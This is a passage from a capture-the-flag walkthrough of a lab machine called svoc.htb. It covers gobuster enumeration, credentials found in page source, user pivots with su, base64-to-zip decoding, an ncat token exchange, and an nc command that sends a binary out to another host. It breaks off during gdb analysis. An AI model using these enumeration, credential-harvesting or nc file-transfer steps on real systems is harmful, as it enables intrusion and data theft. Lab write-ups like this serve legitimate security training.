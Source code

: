 ### Looking over port 80

Here we are greated with an interesting message that points to the first attack vector. So I've started gobuster using `gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-directories.txt -u http://svoc.htb/ -o web.recon` and I got the `/anon` directory. 

```
/javascript (Status: 301)
/server-status (Status: 403)
/anon (Status: 301)
```

At a first glance here we can't see the credentials, but when we look over the source-code we get `<font color="white">uno:luc10r4m0n</font>`. Now we ssh into the box and we get the first flag: ***flag1{fb9e88}***

### Privesc to the second user

Along side the `flag1.txt` we have a `readme.txt` file that seems to have the second user password: `4b3l4rd0fru705`. Well now we just use `su dos`. In order to get the second flag we need to find the file that contains `a8211ac1853a1235d48829414626512a`. In order to do this we can run `grep -rnw 'files/' -e 'a8211ac1853a1235d48829414626512a'` and which produces the following output: `files/file4444.txt:52:a8211ac1853a1235d48829414626512a`.

The only thing that remains to do is cat the file4444.txt which will point us to file3131.txt. This file has at the end a base64 encoded string. If we just decode it, it won't work but it will point us to the idea that this is a zip archive. To get the output I've crafted this payload: `base64 -d string.txt > files.zip` and than just run `unzip files.zip`. Now we've got the second flag: ***flag2{624a21}***

### Privesc to the third user

Now we have 2 files that we didn't read: `/home/dos/1337.txt` and `challange2/todo.txt`. Combining the information from both files we know that we must abuse the service found at port 1337. So when we ncat to port 1337 using `echo "c8e6afe38c2ae9a0283ecfb4e1b7c10f7d96e54c39e727d0e5515ba24a4d1f1b" |ncat svoc.htb 1337` we get the following ouput

```
Welcome to SVOS Password Recovery Facility!
Enter the super secret token to proceed: 
Here's your login credentials for the third user tres:r4f43l71n4j3r0
```
So we got the third user. The third flag is: ***flag3{ac66cf}***.

### Privesc to the fourth user

This part seems to be a reverse binary challange. So I transfered the binary to my local machine using `nc <ip> 4242 < secarmy-village`. If we run strings against it we can't get anything usefull, so I tried ghidra but there was in vain. Here I've run out of ideas, but I had one last trick to try. I tought because ghidra can't find any functions it might've been obfuscated so I tried to run it and than find the something. I've installed peda on gdb and run the binary with `gdb secarmy-village`.  Now I tried to look again for strings using `find 'cuatro'` and it outputed the credentials. 
```gdb
gdb-peda$ r
Starting program: /root/Documents/svoc/secarmy-village 
[New LWP 9351]
[New LWP 9352]
[New LWP 9353]
[New LWP 9354]
Welcome .......Please enter the key ===>  

^C
Thread 1 "secarmy-village" received signal SIGINT, Interrupt.

[----------------------------------registers-----------------------------------]
--more ouput--
```